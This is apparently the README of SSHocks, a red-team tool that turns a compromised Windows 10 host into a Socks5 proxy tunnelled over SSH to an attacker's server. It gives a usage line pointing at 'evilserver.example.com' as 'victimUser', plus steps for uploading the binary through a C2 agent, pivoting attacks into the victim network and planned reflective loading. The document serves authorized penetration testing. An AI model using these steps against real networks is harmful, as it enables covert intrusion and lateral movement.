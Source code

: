 <h1>SSHocks v. 1.0</h1>
                                       
SSHocks was born out of a penetration testing need. On a Red Team engagement, we need to get a Socks5 proxy up and fast. We originally had one working through an SSH tunnel using OpenSSH installed on a Windows 10 target. However, partway through our engagement, the client placed protections that stopped ssh.exe from functioning. I got to work and cobbled together this simple SSH client with full Socks5 support. I wanted it to be a single executable file so it was easy to upload. This project can be published via Visual Studio 2022 as a single file, or just download the pre-compiled release <a href=https://github.com/todonnal2-r7/SSHocks/releases/tag/SSHocks_Windows_x86>here</a>.

The latest release is confirmed to work on Windows 10 hosts. It has not yet been tested on other versions of Windows. (I just built it! Give me time man!) If you've tried it on something other than Windows 10, please let me know!

**USAGE:** SSHocks.exe [SSH server] [SSH Port] [username] [path to private key] [remote socks port]

(Ex. SSHocks.exe evilserver.example.com 2222 victimUser C:\Users\<username>\.ssh\id_rsa 1080)

**NOTES:**

1. You will need to generate a keypair on your SSH server for your victim's user account and create the user account on the SSH server. DO NOT SET A PASSWORD ON THE KEY.

2. Upload the key and SSHocks.exe to the victim host using your C2 agent or whatever other means you might have for uploading sketchy stuff.

3. Execute using your prefered binary execution method.

4. By default, the program will open port 1080 on the victim host as the receiving port for all Socks5 traffic. This can be changed in source as needed.
5. Once the client is connected to your attack SSH server and you've verified the proxy port is listening, you can use any proxy aware program or tool to attack the victim's network. Use Proxychains with non-proxy aware tools. Just make sure your proxychains.conf file is properly configured for the correct port and using socks5.
6. Since the point was to use this via a C2 impant which is likely to not provide an interactive shell, I baked in a way to gracefully shut the proxy and tunnel down using a remote proxy command. Simply use proxychains or someo ther means to send:
  
   *curl xxx.xxx*
   
The proxy will receive the connection request and interpret it as a command to shutdown and disconnect gracefully.

<h2>To Do:</h2>
- Modify source to be able to be loaded using Assembly Reflection
